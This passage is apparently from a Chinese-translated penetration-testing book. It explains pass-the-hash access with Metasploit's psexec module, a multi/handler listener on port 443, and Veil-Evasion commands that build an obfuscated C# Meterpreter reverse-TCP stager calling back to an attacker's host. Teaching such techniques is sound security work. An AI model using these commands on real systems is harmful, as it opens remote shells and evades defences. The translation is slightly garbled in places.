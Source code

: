![Testing for the synchronization of account credentials](img/image00332.jpeg)

### 注

在运行这些命令之前，请确保使用 spool 将结果输出到日志文件，以便您可以返回并查看结果。

正如您在下图中所看到的，该账户提供了登录系统的详细信息。这意味着有与返回的帐户名相关的已登录用户，并且本地管理员帐户将在该系统上工作。这意味着通过**通过散列攻击**（**PtH**，该系统已经成熟，可以进行妥协。

![Testing for the synchronization of account credentials](img/image00333.jpeg)

### 注

`psexec`模块允许您通过提取的**局域网管理器（LM）**：**新技术 LM（NTLM）**散列和用户名组合，或者仅通过用户名密码对进行访问。

首先，我们设置了一个自定义的 multi/handler 来捕获我们在下面的示例中由 Veil 生成的自定义漏洞。请记住，我使用`443`作为本地端口，因为它绕过了大多数 HIPS，并且本地主机将根据您的主机而改变。

![Testing for the synchronization of account credentials](img/image00334.jpeg)

现在，我们需要使用 Veil 生成自定义有效载荷，以便与`psexec`模块一起使用。您可以导航到`Veil-Evasion`安装目录并使用`python Veil-Evasion.py`运行它。Veil 有大量有效载荷，可以通过各种模糊或保护机制生成，以查看您想要使用的特定有效载荷，并执行`list`命令。您可以通过键入有效负载的编号或名称来选择有效负载。例如，运行以下命令以生成不使用 shell 代码的 C Sharp stager，请记住，这需要在目标框上使用特定版本的.NET。

```
use cs/meterpreter/rev_tcp
set LPORT 443
set LHOST 192.168.195.160
set use_arya Y
generate

```
